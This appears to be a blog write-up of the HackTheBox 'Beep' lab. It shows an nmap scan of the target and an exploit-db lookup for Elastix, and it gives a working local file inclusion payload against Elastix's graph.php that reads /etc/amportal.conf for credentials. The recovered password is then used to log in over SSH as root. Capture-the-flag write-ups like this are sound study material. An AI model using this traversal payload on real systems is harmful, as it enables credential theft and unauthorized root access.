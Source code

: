 ```yaml
---
layout: post
title:  "HackTheBox - Beep"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```

Beep was a very easy box with not much to learn. Would have liked to see more complex methods included as the initial vector was different and could have led to more interesting things.


# Nmap scan
```console
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL APOP LOGIN-DELAY(0) STLS AUTH-RESP-CODE EXPIRE(NEVER) TOP IMPLEMENTATION(Cyrus POP3 server v2) USER RESP-CODES PIPELINING
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            743/udp  status
|_  100024  1            746/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK RENAME URLAUTHA0001 IMAP4 NO X-NETSCAPE QUOTA SORT CONDSTORE MULTIAPPEND UNSELECT IDLE CATENATE IMAP4rev1 ACL THREAD=REFERENCES LITERAL+ RIGHTS=kxte ATOMIC NAMESPACE BINARY ID LIST-SUBSCRIBED SORT=MODSEQ MAILBOX-REFERRALS CHILDREN ANNOTATEMORE UIDPLUS THREAD=ORDEREDSUBJECT STARTTLS LISTEXT
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2018-10-31T09:44:22+00:00; -2h00m46s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host
```

# Exploitation
We can see from the nmap scan and from navigating the page that the webserver is running elastix. A exploit-db search for elastix returns a local file inclusion that should reveal a user login and password from a config file.
```
Elastix 2.2.0 - 'graph.php' Local File Inclusion | exploits/php_webapps/37637.pl
```
Reading the exploit and grabbing the payload we can navigate back to the page and read the config file with the LFI
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
There are passwords in the config file as expected, next we can change the LFI to point to /etc/passwd to check for user accounts to try ssh with.

sshing into the box as root with the password from the config file works and we can collect our root and user flags.
